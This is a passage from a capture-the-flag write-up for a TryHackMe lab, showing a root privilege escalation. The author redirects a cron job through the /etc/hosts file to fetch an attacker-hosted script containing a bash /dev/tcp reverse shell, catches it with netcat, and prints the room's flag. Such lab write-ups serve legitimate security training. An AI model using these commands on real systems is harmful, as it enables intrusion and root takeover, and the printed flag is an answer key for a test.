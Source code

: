 I cannot access the file so I can't change it. Perhaps I can trick the server to use my attacker pc instead of using localhost for overpass.thm?

## Excalate to root

This is the plan. 

I'll create a web server on my attacker PC on port 80. This will server the script buildscript.sh. However, it'll be my version of the script which is just a revershell. I'll then create nc listener on my attacker PC. 
The final step will be to edit the server's hosts file and change from the loopback address to my attacker machine.

What should happen is the server will connect to my attacker PC on port 80. Download and run my version of the script. Executing a reverse shell back to my attacker PC as root!

### Step 1 - Create the files and web server on my attacker PC
```bash
mkdir -p downloads/src
echo "bash -i >& /dev/tcp/10.6.57.243/9999 0>&1" > downloads/src/buildscript.sh
chmod +x downloads/src/buildscript.sh
python -m http.server 80
```

### Step 2 - Listener on my attacker PC
```bash
rlwrap nc -nlvp 9999
```

### Step 3 - Change the host file on the server to point to my attacker PC

```bash
nano /etc/hosts
```
wait for it! BINGO. We're root!

```bash
cat /root/root.txt
thm{7f336f8c359dbac18d54fdd64ea753bb}
```

**Q. Escalate your privileges and get the flag in root.txt
A. thm{7f336f8c359dbac18d54fdd64ea753bb}


